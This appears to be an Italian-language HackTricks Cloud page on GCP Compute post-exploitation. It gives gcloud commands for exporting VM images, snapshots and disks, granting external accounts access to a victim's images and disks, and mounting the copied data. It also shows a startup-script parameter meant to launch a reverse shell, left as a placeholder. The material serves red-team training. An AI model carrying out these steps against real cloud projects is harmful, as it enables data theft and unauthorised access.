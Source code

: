 # GCP - Compute Post Exploitation

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

## Compute

Per ulteriori informazioni su Compute e VPC (Networking) controlla:

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Esporta e ispeziona le immagini localmente

Questo permetterebbe a un attaccante di **accedere ai dati contenuti all'interno di immagini già esistenti** o **creare nuove immagini di VM in esecuzione** e accedere ai loro dati senza avere accesso alla VM in esecuzione.

È possibile esportare un'immagine VM in un bucket e poi scaricarla e montarla localmente con il comando:

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Per eseguire questa azione, l'attaccante potrebbe aver bisogno di privilegi sul bucket di archiviazione e sicuramente **privilegi su cloudbuild**, poiché è il **servizio** che verrà richiesto di eseguire l'esportazione.\
Inoltre, affinché questo funzioni, il SA di codebuild e il SA di compute devono avere permessi privilegiati.\
Il SA di cloudbuild `<project-id>@cloudbuild.gserviceaccount.com` ha bisogno di:

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

E il SA `<project-id>-compute@developer.gserviceaccount.com` ha bisogno di:

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Esporta e ispeziona snapshot e dischi localmente

Non è possibile esportare direttamente snapshot e dischi, ma è possibile **trasformare uno snapshot in un disco, un disco in un'immagine** e seguendo la **sezione precedente**, esportare quell'immagine per ispezionarla localmente.

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Ispezionare un'immagine creando una VM

Con l'obiettivo di accedere ai **dati memorizzati in un'immagine** o all'interno di una **VM in esecuzione** da cui un attaccante **ha creato un'immagine,** è possibile concedere a un account esterno l'accesso all'immagine:
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
e poi creare una nuova VM da esso:
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Se non puoi dare accesso al tuo account esterno tramite l'immagine, puoi avviare una VM utilizzando quell'immagine nel progetto della vittima e **far eseguire alla metadata una reverse shell** per accedere all'immagine aggiungendo il parametro:
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Ispezionare uno Snapshot/Disk collegandolo a una VM

Con l'obiettivo di accedere ai **dati memorizzati in un disco o in uno snapshot, potresti trasformare lo snapshot in un disco, un disco in un'immagine e seguire i passaggi precedenti.**

Oppure potresti **concedere a un account esterno l'accesso** al disco (se il punto di partenza è uno snapshot, concedi l'accesso allo snapshot o crea un disco da esso):
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Collega il disco** a un'istanza:
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Montare il disco all'interno della VM:

1.  **SSH nella VM**:

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identificare il Disco**: Una volta dentro la VM, identificare il nuovo disco elencando i dispositivi disco. Tipicamente, puoi trovarlo come `/dev/sdb`, `/dev/sdc`, ecc.
3. **Formattare e Montare il Disco** (se è un disco nuovo o raw):
*   Creare un punto di montaggio:

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Montare il disco:

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Se **non puoi dare accesso a un progetto esterno** allo snapshot o al disco, potresti dover **eseguire queste azioni all'interno di un'istanza nello stesso progetto dello snapshot/disk**.

{% hint style="success" %}
Impara e pratica il Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
